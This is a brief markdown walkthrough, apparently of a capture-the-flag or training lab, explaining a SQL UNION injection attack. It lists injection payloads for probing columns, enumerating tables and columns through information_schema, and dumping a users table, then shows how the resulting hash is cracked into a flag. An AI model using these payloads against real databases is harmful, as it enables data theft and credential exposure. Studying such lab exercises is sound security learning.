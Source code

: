 # SQL UNION ATTACK
A union attack attempts to pull information from an additional table that is not the current table that is being queried.

### Step 1
* Input is data search using ID's, try tentative search with integer and then without

### Step 2
* Confirm SQL vulnerabitlity with 1 = 1 or 1

### Step 3
* Attack
1. Confirm number off return columns and data types
> * trial and error: 
> _1 = 1 or 1 ORDER BY 1_...  
> _UNION SELECT ‘a’,NULL_...

2. Find tables within current database
  _1 or 1 = 1 UNION SELECT 1,concat(table_name) FROM information_schema.tables WHERE table_schema = database()_

  **users**

3. Find columns within desired table
  _1 and 1=2 union select 1,group_concat(column_name) from information_schema.columns where table_schema = database()_

  **user_id,first_name,last_name,town,country,planet,Commentaire,countersign**

4. Find data
  _1 and 1=2 union select 1,concat(user_id,first_name,last_name,town,country,planet,Commentaire,countersign) from users_

  **5FlagGetThe424242Decrypt this password -> then lower all the char. Sh256 on it and it's good !5ff9d0165b4f92b14994e5c685cdce28**

  _MD5 DECRYPT-> 5ff9d0165b4f92b14994e5c685cdce28 => FortyTwo_

  _toLower -> FortyTwo => fortytwo_

  _Sh256 ENCRYPT -> fortytwo => **10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5**_

https://medium.com/@nyomanpradipta120/sql-injection-union-attack-9c10de1a5635
